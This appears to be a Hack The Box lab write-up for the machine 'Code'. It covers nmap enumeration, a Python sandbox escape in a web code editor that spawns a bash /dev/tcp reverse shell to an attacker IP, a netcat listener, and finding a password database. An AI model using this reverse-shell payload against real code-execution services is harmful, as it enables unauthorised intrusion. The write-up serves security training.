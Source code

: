 # 🔓 Hack The Box - Code

> Initial enumeration and setup for the Hack The Box machine named **Code**.

pwned

![pwned](https://github.com/PrimeMurcia/htb/blob/main/code/ss/code20.png?raw=true)

---

## 📅 Start Date

`4/19/2025`

---

## 📡 HTB VPN Connection

Before starting, connect to the HTB VPN:

```bash
sudo openvpn ~/Downloads/HTB.ovpn
```

Verify connectivity to the target machine:

```bash
ping -c 3 <HTB_Code_IP>
```
![VPN Connection](https://github.com/PrimeMurcia/htb/blob/main/code/ss/code1.png?raw=true)

🔍 Nmap Scan

Performed a service and version detection scan with aggressive options:

nmap -sC -sV -A -T4 -Pn -oN code.scan 10.10.11.62

![Nmap Result](https://github.com/PrimeMurcia/htb/blob/main/code/ss/code2.png?raw=true)

🧪 Results Summary

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    Gunicorn 20.0.4

Detailed Notes:

    Port 22 (SSH): OpenSSH 8.2p1 — possibly used for shell access after exploitation.

    Port 5000 (HTTP): Gunicorn Python server hosting a Python Code Editor.

http-title: Python Code Editor
http-server-header: gunicorn/20.0.4

📍 OS Details:

    OS detected: Linux 5.x Kernel

    Network distance: 2 hops

🌐 Web Enumeration on Port 5000

Access the Python Code Editor interface at:

http://code.htb:5000

![WebApp](https://github.com/PrimeMurcia/htb/blob/main/code/ss/code3.png?raw=true)

🛠️ Next Steps:

    Interact with the Python Code Editor. Test for:

        Arbitrary code execution

        Upload/execute payloads

        Sandbox escape (if limited)

## 🏴‍☠️ Initial Foothold - Reverse Shell

### 🎯 Objective:
Gain initial access to the target system by exploiting the Python Code Editor and establishing a reverse shell.

---

### 🧰 Prerequisites:

- ✅ **Python** must be installed on the **target** machine.
- ✅ **Netcat (nc)** must be installed on the **attacker's** machine.
- ✅ Ensure the **target machine can reach the attacker’s IP and port**.

---

### 🪝 Step-by-Step Guide: Gaining a Reverse Shell

#### 📌 Step 1: Set Up a Listener on the Attacker’s Machine

On your Kali/Parrot or attacker machine, open a terminal and start Netcat to listen for the incoming connection:

```bash
nc -lvnp 4444
```

![netcat](https://github.com/PrimeMurcia/htb/blob/main/code/ss/code6.png?raw=true)

Flags explanation:

    -l: Listen for incoming connections

    -v: Verbose output

    -n: Don’t perform DNS resolution

    -p 4444: Use port 4444 for the listener

📌 Step 2: Craft the Reverse Shell Payload

![payload](https://github.com/PrimeMurcia/htb/blob/main/code/ss/code5.png?raw=true)
![payload](https://github.com/PrimeMurcia/htb/blob/main/code/ss/code7.png?raw=true)

Use Python’s dynamic class reference to spawn a bash shell back to your machine:

(().__class__.__base__.__subclasses__()[317])(["/bin/bash", "-c", "bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1"])

    🔁 Replace ATTACKER_IP with your actual IP address (e.g., 10.10.14.89 from HTB VPN).

📌 Step 3: Execute the Payload on the Target Machine

Choose any of the following methods based on your access level:
🔹 Method 1: Direct Python Execution

If you already have a shell or console on the target:

python3 -c '(().__class__.__base__.__subclasses__()[317])(["/bin/bash", "-c", "bash -i >& /dev/tcp/10.10.14.89/4444 0>&1"])'

🔹 Method 2: Remote Code Execution (RCE) via Python Code Editor

Inject the payload through the web interface:

    Visit: http://code.htb:5000

    Enter the payload in the code execution area.

    Trigger execution.

![payload](https://github.com/PrimeMurcia/htb/blob/main/code/ss/code8.png?raw=true)

---

## 🧪 Post-Exploitation - Credentials Discovery

After gaining a reverse shell as `app-production`, I began local enumeration and discovered a SQL database named `database.db` located in the project directory:

![Database](https://github.com/PrimeMurcia/htb/blob/main/code/ss/code9.png?raw=true)

## 🔐 Cracking Another MD5 Hash

While exploring `database.db` or files under `instance/`, I found another hashed password:

![Database](https://github.com/PrimeMurcia/htb/blob/main/code/ss/code10.png?raw=true)


